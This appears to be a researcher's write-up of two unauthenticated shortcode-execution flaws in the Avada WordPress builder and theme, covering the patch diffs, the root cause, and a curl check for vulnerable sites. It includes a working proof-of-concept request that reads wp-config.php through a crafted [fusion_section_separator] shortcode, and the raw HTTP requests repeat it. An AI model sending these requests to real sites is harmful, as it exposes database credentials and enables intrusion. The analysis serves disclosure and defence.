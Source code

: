 # CVE-2024-13345 - Avada Builder <= 3.11.13 - Unauthenticated Arbitrary Shortcode Execution

## TL;DR

> [!NOTE]
> Although CVE-2024-13345 and CVE-2024-13346 are separate vulnerabilities, affecting different components, they were fixed at the same time. Therefore, detecting one is likely to mean that the WordPress instance is vulnerable to the other as well.

Check if the WordPress instance is vulnerable to CVE-2024-13345.

```console
$ curl -H 'Content-Type: application/x-www-form-urlencoded' -d 'content=[fusion_alert]' -X POST 'http://127.0.0.1:8000/wp-json/awb/rendered_content'
{"code":"rest_forbidden","message":"Sorry, you are not allowed to do that.","data":{"status":401}}
```

If the server returns the above message, it means that the Avada Builder plug-in has been **patched**.

```console
$ curl -H 'Content-Type: application/x-www-form-urlencoded' -d 'content=[fusion_alert]' -X POST 'http://127.0.0.1:8000/wp-json/awb/rendered_content'
{"content":"<div class=\"fusion-alert alert general alert-info fusion-alert-center awb-alert-native-link-color alert-dismissable awb-alert-close-boxed\" role=\"alert\"><div class=\"fusion-alert-content-wrapper\"><span class=\"alert-icon\"><i class=\"awb-icon-info-circle\" aria-hidden=\"true\"><\/i><\/span><span class=\"fusion-alert-content\"><\/span><\/div><button type=\"button\" class=\"close toggle-alert\" data-dismiss=\"alert\" aria-label=\"Close\">&times;<\/button><\/div>\n"}
```

If the server interprets the shortcode, it means that the Avada Builder plug-in is **vulnerable**.

Below is a proof-of-concept request for reading the file `wp-config.php` on the remote server.

```console
$ curl -H 'Content-Type: application/x-www-form-urlencoded' -d 'content=[fusion_section_separator+divider_type="custom"+custom_svg="wp-config.php"]' -X POST 'http://127.0.0.1:8000/wp-json/awb/rendered_content'
{"content":"<div class=\"fusion-section-separator section-separator custom fusion-section-separator-1\" style=\"--awb-spacer-height:65px;--awb-bg-size:100% 100%;\"><div class=\"fusion-section-separator-svg\"><div class=\"fusion-custom-candy-sep fusion-section-separator-svg-bg\" style=\"background-image:url( data:image\/svg+xml;utf8,<URL_ENCODED_FILE_CONTENT> );height:65px;height:65px;background-size:cover;\"><\/div><\/div><div class=\"fusion-section-separator-spacer\"><div class=\"fusion-section-separator-spacer-height\"><\/div><\/div><\/div>\n"}
```

> [!IMPORTANT]  
> If the file does not exist, no error is returned. The SVG content is just empty.

## CVE-2024-13345 - Avada Builder <= 3.11.13

The vulnerability seems to be located in the file `plugins/fusion-builder/inc/class-fusion-builder.php`.

```diff
diff -bur fusion-builder-v3.11.6/inc/class-fusion-builder.php fusion-builder-v3.11.15/inc/class-fusion-builder.php
--- fusion-builder-v3.11.6/inc/class-fusion-builder.php    2024-02-27 17:05:53.000000000 +0100
+++ fusion-builder-v3.11.15/inc/class-fusion-builder.php    2025-03-18 17:27:30.000000000 +0100
@@ -7119,7 +7299,10 @@
        [
            'methods'             => 'POST',
            'callback'            => [ $this, 'rendered_content_endpoint' ],
-                'permission_callback' => '__return_true',
+                'permission_callback' => function () {
+                    return current_user_can( 'edit_others_posts' );
+                },
+
        ]
```

A permission check callback is now invoked when using the REST API endpoint `/rendered_content`. Prior to the patch, it just returned `true`, thus allowing unauthenticated users to invoke `rendered_content_endpoint()`, which then calls the built-in function `apply_filters()` (=> `do_shortcode()`) on the user-controlled input `content`.

```php
// /inc/class-fusion-builder.php
public function register_rendered_content_endpoint() {
    // User media.
    register_rest_route(
        'awb',
        '/rendered_content',
        [
            'methods'             => 'POST',
            'callback'            => [ $this, 'rendered_content_endpoint' ],
            'permission_callback' => '__return_true',
        ]
    );
}

public function rendered_content_endpoint( $data ) {
    $content = apply_filters( 'the_content', $data->get_param( 'content' ) );

    return [ 'content' => $content ];
}
```

Reaching the vulnerable code is as simple as sending the following HTTP request.

```http
POST /wp-json/awb/rendered_content HTTP/2
Host: 10.11.12.13
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

content=[fusion_alert]
```

Shortcode execution is not interesting on its own though. A shortcode is just used to transform a "tag" (with optional parameters), such as `[fusion_alert]` here into dynamically generated HTML code. To do so, a custom handler must be defined for each shortcode. Therefore, it is interesting to check whether such a handler can be leveraged to achieve arbitrary code execution for instance.

Although I did not find such a handler, I did find one that would provide an arbitrary file read primitive.

In the file `plugins/fusion-builder/shortcodes/fusion-section-separator.php`, one can find a handler for the shortcode `[fusion_section_separator]`, which invokes `fusion_get_svg_from_file()` using a user-controlled file path, and returns the URL-encoded result to the client.

```php
// plugins/fusion-builder/shortcodes/fusion-section-separator.php
public function render( $args, $content = '' ) {
    // ...
    if ( 'triangle' === $this->args['divider_type'] ) {
        //...
    } elseif ( 'custom' === $this->args['divider_type'] && '' !== $this->args['custom_svg'] ) {

        $custom_svg_data                      = fusion_get_svg_from_file( $this->args['custom_svg'], [ 'background-color' => $this->args['backgroundcolor'] ] );
        $this->args['default_divider_height'] = ! empty( $custom_svg_data['height'] ) ? $custom_svg_data['height'] . 'px' : '65px';

        $this->args['svg_element'] = ! empty( $custom_svg_data['svg'] ) ? $custom_svg_data['svg'] : '';
        $candy                     = '<div ' . FusionBuilder::attributes( 'section-separator-shortcode-divider-svg-bg-image' ) . '></div>';

    }
    // ...
}
```

For instance, it is possible to retrieve the content of the file `wp-config.php` using the following HTTP request.

```http
POST /wp-json/awb/rendered_content HTTP/2
Host: 10.11.12.13
Content-Type: application/x-www-form-urlencoded
Content-Length: 83

content=[fusion_section_separator+divider_type="custom"+custom_svg="wp-config.php"]
```

## CVE-2024-13346 - Avada Theme <= 7.11.13

The vulnerability seems to be located in the file `includes/class-awb-google-recaptcha.php`.

```diff
diff -bur Avada_7.11.12/includes/class-awb-google-recaptcha.php Avada_7.11.14/includes/class-awb-google-recaptcha.php
--- Avada_7.11.12/includes/class-awb-google-recaptcha.php    2024-12-16 11:00:34.000000000 +0100
+++ Avada_7.11.14/includes/class-awb-google-recaptcha.php    2025-01-29 11:03:30.000000000 +0100
@@ -74,7 +74,7 @@
        $recaptcha_error = ( isset( $_GET['recaptcha_error'] ) && '' !== $_GET['recaptcha_error'] ) ? sanitize_text_field( wp_unslash( $_GET['recaptcha_error'] ) ) : '';  // phpcs:ignore WordPress.Security.NonceVerification
        $type            = ( isset( $_GET['type'] ) && '' !== $_GET['type'] ) ? sanitize_text_field( wp_unslash( $_GET['type'] ) ) : '';  // phpcs:ignore WordPress.Security.NonceVerification    
        if ( $recaptcha_error && $type ) {
-            echo do_shortcode( '[fusion_alert margin_top="20px" type="' . $type . '"]' . $recaptcha_error . '[/fusion_alert]' );
+            echo do_shortcode( '[fusion_alert margin_top="20px" type="' . esc_attr( strip_shortcodes( $type ) ) . '"]' . esc_html( strip_shortcodes( $recaptcha_error ) ) . '[/fusion_alert]' );
        }
```

In version 7.11.14 of the theme, the function `strip_shortcodes()` was added, before invoking `do_shortcode()` using the user-controlled input `type`.

Reaching the vulnerable code seems to require Captchas to be enabled in the theme's settings though, which is not the default.

## References

CVE-2024-13345 - Avada Builder <= 3.11.13 - Unauthenticated Arbitrary Shortcode Execution

- [https://nvd.nist.gov/vuln/detail/CVE-2024-13345](https://nvd.nist.gov/vuln/detail/CVE-2024-13345)
- [https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/fusion-builder/avada-builder-31113-unauthenticated-arbitrary-shortcode-execution](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/fusion-builder/avada-builder-31113-unauthenticated-arbitrary-shortcode-execution)
- [https://avada.com/documentation/avada-changelog/](https://avada.com/documentation/avada-changelog/)
- Researcher: [@mikemyers](https://www.wordfence.com/threat-intel/vulnerabilities/researchers/michael-mazzolini)

CVE-2024-13346 - Avada Theme <= 7.11.13 - Unauthenticated Arbitrary Shortcode Execution

- [https://nvd.nist.gov/vuln/detail/CVE-2024-13346](https://nvd.nist.gov/vuln/detail/CVE-2024-13346)
- [https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-themes/Avada/avada-theme-71113-unauthenticated-arbitrary-shortcode-execution](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-themes/Avada/avada-theme-71113-unauthenticated-arbitrary-shortcode-execution)
- [https://avada.com/documentation/avada-changelog/](https://avada.com/documentation/avada-changelog/)
- Researcher: [@mikemyers](https://www.wordfence.com/threat-intel/vulnerabilities/researchers/michael-mazzolini)
